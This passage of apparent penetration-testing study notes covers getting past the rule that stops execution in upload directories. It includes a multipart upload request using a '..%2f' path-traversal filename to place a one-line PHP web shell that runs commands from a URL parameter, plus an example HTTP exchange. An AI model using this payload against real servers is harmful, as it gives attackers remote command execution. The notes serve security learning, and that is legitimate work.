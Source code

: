 ## Bypass **Preventing file execution in user-accessible directories**

- you can add `../` before the file name to change the upload directory to another location that is not configured to be not executable

```php
<SNIP>
-----------------------------113761443433615296422317965594
Content-Disposition: form-data; name="avatar"; filename="..%2fcmd.php"
Content-Type: application/x-php

<?php
system($_GET['cmd']);
?>
<SNIP>
```

While it's clearly better to prevent dangerous file types being uploaded in the first place, the second line of defense is to stop the server from executing any scripts that do slip through the net.

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```jsx
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

This behavior is potentially interesting in its own right, as it may provide a way to leak source code, but it nullifies any attempt to create a web shell.

This kind of configuration often differs between directories. A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.

You should also note that even though you may send all of your requests to the same domain name, this often points to a reverse proxy server of some kind, such as a load balancer. Your requests will often be handled by additional servers behind the scenes, which may also be configured differently.

---

### **Overriding the server configuration**
